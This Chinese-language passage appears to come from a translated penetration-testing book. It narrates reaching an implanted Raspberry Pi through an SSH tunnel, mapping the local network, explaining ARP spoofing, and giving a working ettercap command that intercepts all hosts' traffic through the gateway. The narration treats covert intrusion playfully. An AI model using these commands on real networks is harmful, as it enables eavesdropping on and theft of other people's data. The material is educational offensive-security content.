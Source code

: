 # 认识

<b>
"迈向改变的第一步是认知。第二步是接受。"  --纳撒尼尔·布兰登(Nathaniel Branden) 
</b>

<br><br>


## 嗅探周围
舒适地安顿在附近一家咖啡馆内，我们连接到前置服务器，并注意到机器上的端口 5555 打开：我们有一个工作隧道，将我们连接到 PI 0！我们 ssh 到本地端口访问 PI 0的控制台，并开始我们的艺术工作：
```
root@FrontGun:~ # ssh root@localhost 5555
The programs included with the Kali GNU/Linux system are free software;
Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 03 14:44:04 2017 from 198.xx.xx.xx
root@PIspy:~ #
```

在异国环境中，第一个反射就是倾听网络上发生的事情。当我们只需要利用监听来渗透网络时，许多渗透测试人员/黑客却急于启动nmap和其他扫描工具，并开始向整个管理员人群广播他们的存在。

如果我们显示网络的配置，我们可以看到我们位于标准专用 IP 网络 （192.168.1.0/24） 上，本地家用路由器充当网关。
```
root@PIspy:~ # ifconfig
eth0 Link encap:Ethernet HWaddr 00:e0:4c:56:19:cd
 inet addr:192.168.1.19 Bcast:192.168.1.255
 Mask:255.255.255.0 UP BROADCAST RUNNING
 MULTICAST MTU:1500 Metric:1
 RX packets:102 dropped:0 overruns:0 frame:0
 TX packets:124 dropped:0 overruns:0 carrier:0
 collisions:0 txqueuelen:1000
[…]
root@PIspy:~ # route
Kernel IP routing table
Destination Gateway Genmask Use Iface
default 192.168.1.1 0.0.0.0 0 eth0
192.168.1.0 * 255.255.255.0 0 eth0
```

我们可以开始记录通过有线传输的数据包，使用许多集成的Kali工具（tcpdump、tshark等），但无论如何，我们只能成功地将流量发送到PI。

一点也不有趣！

然而，其他设备的流量-现在这是我们可以处理的。一种方法是诱使他们使用我们的PI作为网关，而不是合法的路由器。

我们可以使用经典的ARP欺骗技术来实现这一点。ARP是一种将IP地址（网络层）转换为MAC地址（物理层）的协议。换言之，它可以判断哪些设备连接到路由器上的哪些物理端口。这主要是一个“叫喊协议”，我喜欢这样称呼它。

发送数据包时，设备会向网络发送以下消息：“谁的IP地址是192.168.1.1？”，第一个响应“这就是我，我在路由器的4端口上”的设备赢得比赛并获得数据包。

为了欺骗设备给我们他们的数据，我们发送多个ARP包假装是主网关-192.168.1.1。

试图通过默认网关发送数据包的设备将被诱使将其数据发送到PI 0，后者将读取数据并将其转发到真正的网关。回来的路上也一样。
```
root@PIspy:~ # ettercap -T -w dump.txt -i eth0 -M arp:remote /192.168.1.1// /// output:
```
*-T switch is for using console GUI only<br>
-w dump.txt, instructs Ettercap to save recorded packets to a file <br>
-M arp:remote, is for performing a MitM attack on ARP <br>
/192.168.1.1// is the target to spoof <br>
/// is an empty filter that tells Ettercap to respond to ARP requests issued by all machines <br>
output: is what outputs everything on the screen*
